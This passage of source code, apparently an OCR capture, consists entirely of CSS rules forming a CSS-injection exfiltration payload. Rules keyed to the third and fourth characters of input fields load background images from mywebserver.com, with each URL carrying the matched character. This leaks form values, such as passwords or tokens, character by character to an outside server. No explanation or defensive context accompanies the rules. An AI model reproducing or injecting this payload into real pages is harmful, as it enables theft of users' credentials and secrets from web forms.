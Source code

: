 ```
input[value=W]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=W"); }
input[value=X]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=X"); }
input[value=Y]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=Y"); }
input[value=Z]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=Z"); }
input[value=a]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=a"); }
input[value=b]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=b"); }
input[value=c]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=c"); }
input[value=d]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=d"); }
input[value=e]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=e"); }
input[value=f]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=f"); }
input[value=g]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=g"); }
input[value=h]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=h"); }
input[value=i]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=i"); }
input[value=j]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=j"); }
input[value=k]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=k"); }
input[value=l]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=l"); }
input[value=m]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=m"); }
input[value=n]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=n"); }
input[value=o]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=o"); }
input[value=p]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=p"); }
input[value=q]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=q"); }
input[value=r]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=r"); }
input[value=s]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=s"); }
input[value=t]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=t"); }
input[value=u]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=u"); }
input[value=v]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=v"); }
input[value=w]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=w"); }
input[value=x]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=x"); }
input[value=y]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=y"); }
input[value=z]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=z"); }
input[value=0]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=0"); }
input[value=1]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=1"); }
input[value=2]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=2"); }
input[value=3]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=3"); }
input[value=4]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=4"); }
input[value=5]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=5"); }
input[value=6]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=6"); }
input[value=7]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=7"); }
input[value=8]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=8"); }
input[value=9]:nth-of-type(3) { background-image: url("https://mywebserver.com/data?3=9"); }

input[value=A]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=A"); }
input[value=B]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=B"); }
input[value=C]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=C"); }
input[value=D]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=D"); }
input[value=E]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=E"); }
input[value=F]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=F"); }
input[value=G]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=G"); }
input[value=H]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=H"); }
input[value=I]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=I"); }
input[value=J]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=J"); }
input[value=K]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=K"); }
input[value=L]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=L"); }
input[value=M]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=M"); }
input[value=N]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=N"); }
input[value=O]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=O"); }
input[value=P]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=P"); }
input[value=Q]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=Q"); }
input[value=R]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=R"); }
input[value=S]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=S"); }
input[value=T]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=T"); }
input[value=U]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=U"); }
input[value=V]:nth-of-type(4) { background-image: url("https://mywebserver.com/data?4=V"); }
```